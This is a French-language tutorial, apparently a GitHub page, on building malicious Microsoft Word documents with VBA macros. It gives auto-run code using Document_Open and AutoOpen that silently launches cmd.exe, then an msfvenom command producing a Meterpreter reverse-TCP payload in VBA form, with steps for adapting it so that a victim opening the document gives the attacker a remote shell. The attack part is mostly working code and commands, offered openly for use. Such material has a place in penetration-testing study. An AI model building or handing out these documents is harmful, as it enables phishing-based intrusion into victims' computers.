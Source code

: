 # Visual Basic for Application - VBA

Visual Basic for Application - VBA, un langage de programmation mis en œuvre par Microsoft pour les applications telles que Microsoft Word, Excel, PowerPoint, etc... pour automatiser les tâches de presque toutes les interactions clavier et souris entre un utilisateur et les applications Microsoft Office.


## Microsoft Word Macro
Utilise des macros pour créer des documents Microsoft malveillants:

1. Créez un nouveau document Microsoft vierge pour créer notre première `macro` .

2. Modifiez maintenant le document Word et créez une fonction macro qui exécute un `cmd.exe`  ou tout fichier exécutable,  

3. Afin d'exécuter pour automatiquement le code VBA une fois le document ouvert, nous pouvons utiliser des fonctions intégrées telles que  `AutoOpen`  et  `Document_open` . 

```javascript
Sub Document_Open()
  PoC
End Sub

Sub AutoOpen()
  PoC
End Sub

Sub PoC()
	Dim payload As String
	payload = "cmd.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

4. Il est important de noter que pour que la macro fonctionne, nous devons la sauvegarder au format _Macro-Enabled_ tel que` .doc` et  `docm` . 

5. Enregistrons maintenant le fichier en tant que modèle **`Document Word 97-2003`**


> **Nous pouvons combiner les VBA avec des méthodes telles que les HTA et WSH. Les VBA/macros en eux-mêmes ne contournent pas intrinsèquement les détections.**


Créons maintenant une charge utile pour recevoir un shell inversé.

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.128 LPORT=443 -f vba
```

NB: *Une modification doit être effectuée pour que cela fonctionne.*

> Le résultat fonctionnera sur une feuille MS Excel. Par conséquent, remplacez  `Workbook_Open()` par  `Document_Open()` pour le rendre adapté aux documents MS Word.

> Une fois le document MS Word malveillant ouvert sur la machine victime, nous devrions recevoir un shell inversé.
